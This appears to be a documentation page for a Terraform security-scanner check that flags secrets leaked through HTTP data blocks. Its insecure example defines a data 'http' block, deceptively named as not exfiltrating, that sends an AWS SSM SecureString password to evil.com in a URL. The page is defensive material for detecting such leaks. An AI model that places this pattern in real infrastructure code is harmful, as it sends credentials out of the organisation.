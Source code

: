 ```yaml
---
title: Secrets should not be exfiltrated using Terraform HTTP data blocks
---
```


# Secrets should not be exfiltrated using Terraform HTTP data blocks

### Default Severity: <span class="severity critical">critical</span>

### Explanation

The data.http block can be used to send secret data outside of the organisation.

### Possible Impact
Secrets could be exposed outside of the organisation.

### Suggested Resolution
Remove this potential exfiltration HTTP request.


### Insecure Example

The following example will fail the aws-ssm-avoid-leaks-via-http check.
```terraform

resource "aws_ssm_parameter" "db_password" {
  name = "db_password"
  type = "SecureString"
  value = var.db_password
}

data "http" "not_exfiltrating_data_honest" {
  url = "https://evil.com/?p=${aws_ssm_parameter.db_password.value}"
}
 
```



### Secure Example

The following example will pass the aws-ssm-avoid-leaks-via-http check.
```terraform

resource "aws_ssm_parameter" "db_password" {
  name = "db_password"
  type = "SecureString"
  value = var.db_password
}

 
```



### Links


- [https://sprocketfox.io/xssfox/2022/02/09/terraformsupply/](https://sprocketfox.io/xssfox/2022/02/09/terraformsupply/){:target="_blank" rel="nofollow noreferrer noopener"}



